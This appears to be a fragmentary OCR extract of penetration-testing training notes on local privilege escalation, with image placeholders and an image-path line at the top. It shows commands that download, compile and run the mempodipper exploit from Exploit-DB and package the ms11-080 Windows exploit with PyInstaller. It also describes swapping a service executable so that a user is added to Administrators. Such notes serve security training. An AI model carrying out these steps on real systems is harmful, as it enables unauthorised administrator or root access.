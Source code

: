 wget -O exploit.c http://www.exploit-db.com/download/18411

gcc -o mempodipper exploit.c

./mempodipper

Local Privilege Escalation Exploit in Windows Example

python pyinstaller.py --onefile ms11-080.py

Configuration Issues

Incorrect File and Service Permissions

![](media/c0b36226794965c25c23f4cfabf423c0.png)

![](media/9c82efa6ad5b180975a7435aeda1146b.png)

![](media/e0a32d538d2ed0ac098e0556788d03fb.png)

Once compiled, we replace the original scsiaccess.exe file with our own, and
wait patiently for a service restart, or a system reboot. The next time the
service is started, the fake scsiaccess.exe file will be run with SYSTEM
privileges, thus successfully adding our low privileged user to the
Administrators group.

Think Like a Network Administrator
